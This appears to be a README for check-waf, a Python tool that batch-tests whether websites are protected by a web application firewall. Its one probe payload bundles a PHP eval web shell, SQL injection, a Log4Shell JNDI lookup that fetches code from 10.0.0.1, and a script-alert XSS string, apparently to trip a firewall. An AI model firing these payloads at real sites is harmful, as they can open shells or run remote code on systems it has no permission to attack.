 # check-waf
批量检查站点是否存在waf

## how to use
python3 check-waf.py urls.txt

## 说明
默认生成的Excel表格名字为：{txt文件名}\_waf_results\_{当前时间}.xlsx

## 检测规则
![image](./rule.png)

payload：`?a=<%3fphp+%40eval($_GET['cmd'])%3b%3f>%26b%3d1'+or+'1'%3d'1&c=${jndi%3aldap%3a//10.0.0.1%3a8080/Exploit}&s=<script>alert(1)</script>&id=UNION+SELECT+ALL+FROM+information_schema+AND+'+or+SLEEP(5)+or+'`

